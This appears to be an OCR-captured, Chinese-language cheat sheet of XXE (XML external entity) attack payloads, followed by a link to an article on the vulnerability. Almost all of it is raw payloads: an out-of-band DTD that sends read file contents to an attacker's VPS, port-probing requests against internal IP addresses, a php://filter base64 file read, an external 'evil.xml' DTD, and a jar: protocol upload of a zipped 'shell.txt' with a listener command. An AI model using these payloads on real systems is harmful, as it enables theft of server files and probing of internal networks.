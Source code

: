 ```xml
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://VPS的IP地址/?content=%file;'>">
%payload;

探测端口1
<?xml version='1.0'?>
<!DOCTYPE user [
<!ENTITY dtd SYSTEM "http://192.168.0.103">
]>
<user><username>admin&dtd;</username><password>admin</password></user

探测端口2
<?xml version='1.0'?>
<!DOCTYPE user [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=http:IP:PORT">
<!ENTITY % dtd SYSTEM "http://192.168.0.110/evil.xml">
%dtd;
%send;
]>
<user><username>admin</username><password>admin</password></user>
evil.xml内容
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://VPS的IP地址/?content=%file;'>">
%payload;

jar协议上传文件
压缩要上传的文件，末尾加入垃圾字符
启动监听：python3 xxe_server xx.zip
<?xml version="1.0"?>
<!DOCTYPE user [
<!ENTITY margin SYSTEM "jar:http://192.168.0.100:9999/xx.zip!/shell.txt">
]>
<user><username>a&margin;</username><password>a</password></user>

```
# 一篇好文章
[一篇文章带你深入理解漏洞之 XXE 漏洞 - 先知社区.pdf](https://www.yuque.com/attachments/yuque/0/2021/pdf/2424924/1624119577988-3bc0773f-a611-4cff-83b2-cb9cf2c9a930.pdf)

